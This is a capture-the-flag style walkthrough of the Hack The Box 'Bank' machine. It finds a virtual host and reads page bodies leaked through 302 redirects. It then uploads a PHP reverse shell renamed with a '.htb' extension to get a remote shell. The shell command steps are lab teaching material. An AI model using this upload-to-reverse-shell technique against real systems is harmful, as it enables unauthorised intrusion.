







# 10 - HTTP


# Default Apache Page



This is the default apache page. I ran Gobuster  against the website but it couldn't find anything. At this point we should consider other methods. The box's name is bank, let us try bank.htb


# bank.htb
```html
┌─[user@parrot]─[10.10.14.9]─[~/htb/bank]
└──╼ $ curl -s -H 'Host: bank.htb' 10.10.10.29 | head
<div class="col-md-10">

    <div class="row">
        <div class="col-lg-3 col-md-6">
            <div class="panel panel-primary">
                <div class="panel-heading">
                    <div class="row">
                        <div class="col-xs-3">
                            <i class="fa fa-usd fa-5x"></i>
                        </div>
(23) Failed writing body
```
I think this is the easiest method to check if there is a virtual host routing. Anyway, It doesn't look like the same response we got from the apache default page.

# 10.10.10.29
```html
┌─[user@parrot]─[10.10.14.9]─[~/htb/bank]
└──╼ $ curl -s 10.10.10.29 | head


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <!--
    Modified from the Debian original for Ubuntu
    Last updated: 2014-03-19
    See: https://launchpad.net/bugs/1288690
  -->
  <head>
```

The difference is obvious. Let us add this vhost to /etc/hosts and visit the page on browser.

# login.php


login.php is loaded instead of index.php there is something wrong. It wants us to log in first but we do not have any credentials yet. A few questions arise from redirects. What happened to the page we are trying to access? When redirecting, does the page accidentally include its body too? In theory, body part is totally unnecessary in redirects, because users get redirected as soon as location header is received.

# index.php



Index page itself is not that interesting but the behavior can be useful. Developers of bank like to include the body even in redirects we know that for a fact.

# gobuster

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/bank]
└──╼ $ cat gobuster/bank-x.log   |grep -v 403
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/login.php            (Status: 200) [Size: 1974]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/.                    (Status: 302) [Size: 7322] [--> login.php]
```

According to gobuster support.php is also redirected to login.php but we know that 302 response comes with body anyway. We can take a look at it. I used Burp Suite to intercept the request, then I removed location header from the response in order to access the body in firefox.


# Support.php


Choose File? It looks like a file upload page.


# .htb extension executed as php


The comment states that ".htb" extension is treated as if it was php. Can we upload a file with .htb extension and execute it as php? It sounds likely.


# php-reverse-shell.php
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/bank]
└──╼ $ cp /usr/share/laudanum/php/php-reverse-shell.php rev.htb
┌─[user@parrot]─[10.10.14.9]─[~/htb/bank]
└──╼ $ vi rev.htb 
```

Let us upload php-reverse-shell.php with extension ".htb" and execute it.




We also see the file location that's nice.

# Shell


Once we click the link, a reverse shell appears on our screen.